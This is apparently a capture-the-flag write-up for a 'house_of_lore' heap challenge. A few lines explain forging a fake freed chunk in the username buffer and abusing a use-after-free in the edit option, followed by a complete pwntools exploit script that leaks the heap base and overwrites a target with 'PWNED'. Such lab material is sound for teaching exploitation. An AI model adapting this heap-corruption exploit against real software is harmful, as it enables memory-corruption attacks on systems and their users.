


the username is above our target, by which we can forge a fake freed chunk, as we can edit 0x20 bytes



with the free heap and libc leak, we can link our fake chunk to a freed chunk on the heap that belong to a small bin



and because the edit option does not have a check for if a chunk is freed, which is a UAF bug, we can then link the freed chunk to the chunk in our bss

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./house_of_lore")

context.binary = exe
context.log_level="debug"

script='''
c   
'''

def main():
    # r=gdb.debug(exe.path, gdbscript = script)
    r = process(exe.path)

    # 0x602010
    
    r.recvuntil("heap @ 0x")
    data=r.recvline()
    data=data[:8]
    heap_base=int(data,16)

    r.recvuntil("Enter your username:")
    payload=flat(
        0x602010,
        0x100,
        heap_base,
        0x602000
    )
    r.send(payload)

    r.recvuntil(">")
    r.sendline(str(1).encode())
    r.recvuntil("size:")
    r.send(str(0x90).encode())
    
    r.recvuntil(">")
    r.sendline(str(1).encode())
    r.recvuntil("size:")
    r.send(str(0x90).encode())
    
    r.recvuntil(">")
    r.sendline(str(2).encode())
    r.recvuntil("index:")
    r.sendline(str(0).encode())
    
    r.recvuntil(">")
    r.sendline(str(1).encode())
    r.recvuntil("size:")
    r.send(str(0x100).encode())
    
    r.recvuntil(">")
    r.sendline(str(3).encode())
    r.recvuntil("index:")
    r.sendline(str(0).encode())
    r.recvuntil("data:")
    r.send(flat(0,0x602010))

    r.recvuntil(">")
    r.sendline(str(1).encode())
    r.recvuntil("size:")
    r.send(str(0x90).encode())

    r.recvuntil(">")
    r.sendline(str(1).encode())
    r.recvuntil("size:")
    r.send(str(0x90).encode())

    payload=flat(
        b"\x36"*0x20,
        "PWNED",
        0
    )
    
    r.recvuntil(">")
    r.sendline(str(3).encode())
    r.recvuntil("index:")
    r.sendline(str(4).encode())
    r.recvuntil("data:")
    r.send(payload)

    r.recvuntil(">")
    r.sendline(str(4).encode())

    r.interactive()


if __name__ == "__main__":
    main()

```